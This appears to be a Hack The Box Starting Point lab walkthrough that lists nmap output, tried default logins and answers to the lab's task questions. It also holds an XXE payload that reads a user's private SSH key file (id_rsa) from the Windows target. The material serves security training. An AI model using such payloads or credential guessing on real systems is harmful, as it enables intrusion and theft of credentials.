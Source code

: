 # Connect to HTB
openvpn starting_point_MidnightKali.ovpn

# Spawn Machine

# Target machine IP address
10.129.176.122

# Export to variable
export IP=10.129.176.122

TASK 1

What version of Apache is running on the target's port 80?

# Run NMAP for enumeration
nmap -sC -sV $IP -oN nmap-sC-sV.txt

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

2.4.41

TASK 2

What username:password combination logs in successfully?

# We are met with a simple login page. Attempting a number of default credentials

admin:admin
administrator:administrator
admin:administrator
admin:password
administrator:password

admin:password

TASK 3

What is the word at the top of the page that accepts user input?

order

TASK 4

What XML version is used on the target?

1.0

What does the XXE / XEE attack acronym stand for?

XML External Entity

TASK 6

What username can we find on the webpage's HTML code?

daniel

TASK 7

What is the file located in the Log-Management folder on the target?

job.bat

XEE 

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>

TASK 8

What executable is mentioned in the file mentioned before?

wevtutil.exe

